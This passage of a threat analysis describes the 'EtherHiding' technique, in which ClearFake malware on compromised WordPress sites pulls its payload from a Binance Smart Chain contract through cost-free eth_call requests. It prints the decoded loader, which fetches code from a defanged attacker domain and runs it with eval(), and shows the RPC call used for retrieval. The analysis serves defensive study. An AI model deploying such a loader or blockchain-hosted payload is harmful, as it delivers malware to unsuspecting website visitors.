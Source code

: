 We can see this in the transactions history on the BSC, starting on contract creation on the **9th of September 2023** by another attacker-controlled address. That other address, created in **late June 2022**, was loaded with BNB (The Binance Coin) in an amount just enough to create and update the contract - activities that are not actually payable, yet do cost some minor customary "gas" fees (between 0.02 to 0.60 USD each):

<p align="center"><img src="https://github.com/chartingshow/crypto-firewall/blob/master/assets/images/ether-hiding/4.jpg" alt="EtherHiding"></p>
<p align="center"><strong>Attacker - controlled BSC addresses - from funding, contract creation, and ongoing code updates</strong></p>

Only the first update of the contract is clearly a test (as it actually included only the string "test") but all the following are obvious pieces of JavaScript code. When the first entries are quite simple, the latter add more JavaScript obfuscation techniques but keep on doing just the same few simple activities as seen in this first entry (after decoding from Base64):

```js
const get_k_script = () => {
    let e = new XMLHttpRequest();
    return e.open("GET", "https://921hapudyqwdvy[.]com/vvmd54/", !1), e.send(null), e.responseText;
};
eval(get_k_script());
```

This is exactly the same code we've seen on earlier variants of ClearFake (as returned from the CloudFlare service), only the second stage domain is being changed on an almost daily basis - this shows how easy it is to update the entire attack chain with a simple blockchain transaction.

We see that each time their domain is "burned" an update to the chain is issued to swap the malicious code and affiliated domains - **at least 30 malicious domains and counting.**

### Deploying Malicious Code From The BlockChain (For Free!)

Getting back to the attack flow, once the first stage code on the compromised WordPress site loads, it calls the Binance's SDK `eth_call` method on the BlockChain and fetches the malicious JavaScript code above.

`eth_call` is a read-only and cost-free operation, originally designed to simulate contract execution for reading data or testing without any real-world impact. As such, it is not even recorded on the blockchain. So you get a free, untracked, and robust way to get your data (the malicious payload) without leaving traces. As an example, the compromised website makes your browser broadcast this JSON RPC command to the chain:

```js
{
  "method": "eth_call",
  "params": [
    {
      "to": "0x7f36d9292e7c70a204facc2d255475a861487c60",
      "data": "0x6d4ce63c"
    },
    "latest"
  ],
  "id": 44,
  "jsonrpc": "2.0"
}
```
